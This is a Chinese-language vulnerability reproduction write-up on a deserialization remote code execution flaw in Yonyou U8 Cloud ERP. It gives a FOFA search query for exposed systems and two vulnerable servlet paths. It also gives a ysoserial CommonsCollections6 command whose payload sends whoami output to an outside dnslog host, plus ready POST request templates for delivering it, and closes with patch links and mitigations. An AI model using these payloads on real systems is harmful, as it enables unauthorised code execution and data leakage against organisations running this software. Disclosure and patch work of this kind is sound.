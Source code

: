 
# 用友 U8 Cloud 反序列化 RCE 漏洞复现

### 0x01 产品简介

     用友 U8 Cloud 是用友推出的新一代云 ERP，主要聚焦成长型、创新型企业，提供企业级云 ERP 整体解决方案。

### 0x02 漏洞概述

   用友 U8 Cloud 存在多处（FileManageServlet 和 LoginVideoServlet）反序列化漏洞，系统未将用户传入的序列化数据进行过滤就直接执行反序列化操作，结合系统本身存在的反序列化利用链，最终造成远程代码执行。

### 0x03 影响范围

    用友 U8 Cloud 所有版本

### 0x04 复现环境

FOFA：app="用友-U8-Cloud"

![382252d9fc41453b9a7fa23584a3a67f.png](assets/1699406333-60abbee1f79f2aef2f392c4b07bfc936.png)

### 0x05 漏洞复现

两处接口的反序列化漏洞路径：

```http
/servlet/~uap/nc.impl.pub.filesystem.FileManageServlet
/servlet/~uap/nc.bs.sm.login2.LoginVideoServlet
```

PS：用友的反序列化漏洞大部分 cc6 就可以直接打，post 请求传入反序列化的二进制数据 就可以进行命令执行，ysoserial 工具集成了多种 cc 链，感兴趣的可以研究研究

工具地址：[https://github.com/frohoff/ysoserial/releases/tag/v0.0.6](https://github.com/frohoff/ysoserial/releases/tag/v0.0.6 "https://github.com/frohoff/ysoserial/releases/tag/v0.0.6")

构造序列化数据 (jdk1.8)

```http
java -jar ysoserial-all.jar CommonsCollections6 "ping `whoami`.l4z6nq7x.dnslog.pw" >4.ser
```

 PoC

![176d64f380e941cbb0e8b7de24f4eb8d.png](assets/1699406333-7eae4d74e076ca6043234a3d5070148d.png) ![3afa1c9bfaeb45a3a8cb99ba91f922eb.png](assets/1699406333-c2b1169d4a40ef23ae616a906f3dbb9e.png)

```handlebars
POST /servlet/~uap/nc.impl.pub.filesystem.FileManageServlet HTTP/1.1
Host: {{Hostname}}
Content-Type: *

{{file(C:\Users\m1813\Desktop\4.ser)}}
```

```handlebars
POST /servlet/~uap/nc.bs.sm.login2.LoginVideoServlet HTTP/1.1
Host: {{Hostname}}
Content-Type: *

{{file(C:\Users\m1813\Desktop\4.ser)}}
```

PS：里面生成序列化数据文件的路径自行修改 

![14efce9e7ce84a86a7e062786f63d4fd.png](assets/1699406333-b57d3b68ca1b9bb9a8229f8aa92821ab.png)

![0c40514c2bcd40749a8a985dda1a4186.png](assets/1699406333-daf90c0bc6d53db5a44337add3b09223.png)

![e823be4103cb49f89a223e88ad6eda97.png](assets/1699406333-5af93c219c722f5aef8eec0d707da993.png)

两个路径都可以打，自行测试 

### **0x06 修复建议**

**官方修复方案**：  
用友安全中心已发布官方补丁：  
https://security.yonyou.com/#/noticeInfo?id=400  
https://security.yonyou.com/#/noticeInfo?id=399

  
**临时修复方案：**  
使用 ACL 网络策略限制访问来源；  
使用防护类设备对/servlet/~uap/nc.impl.pub.filesystem.FileManageServlet 和/servlet/~uap/nc.bs.sm.login2.LoginVideoServlet 路径进行防护。
